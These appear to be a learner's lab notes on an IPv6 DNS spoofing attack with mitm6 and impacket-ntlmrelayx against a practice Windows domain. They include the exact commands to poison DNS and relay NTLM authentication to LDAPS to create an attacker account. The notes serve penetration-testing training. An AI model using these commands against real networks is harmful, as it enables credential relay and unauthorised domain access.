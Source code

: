 **IPV6 Attacks**

<br/>
Alternate to relaying SMB<br/>
<br/>
uses IPV6<br/>
<br/>
typical windows runs on IPV4<br/>
<br/>
IPV6 can be turned on but not used<br/>
<br/>
DNS is not being conducted<br/>
<br/>
So we can spoof the IPV6 DNS server<br/>
<br/>
we can trickt he machine to use us to gain access<br/>
<br/>
we can then use the NTLM hash to create a new account for us as the attacker<br/>
<br/>
attack is still prominiate in wild and hard to detect<br/>
<br/>
<br/>
<br/>
<br/>
ATTACK<br/>
<br/>
install mitm6<br/>
<br/>
https://github.com/dirkjanm/mitm6<br/>
<br/>
Ensure server has CA<br/>
<br/>
<br/>
<br/>
To start set up mitm6<br/>
<br/>
syntax &gt; sudo mitm6 -d marvel.local <br/>
<br/>
Will start receiveing traffic from deivces in the network<br/>
<br/>
<br/>
<img height="200" src="image.png" width="681"/><br/>
<br/>
<br/>
now start relay as before but for IPV6<br/>
<br/>
sudo impacket-ntlmrelayx -6 -t ldaps://192.168.247.133 -wh fakewpad.marvel.local -l lootme<br/>
<br/>
now the system is waiting for a IPV6 call.. its about once every 30min.. for learning to speed up we can just restart the machine<br/>
<br/>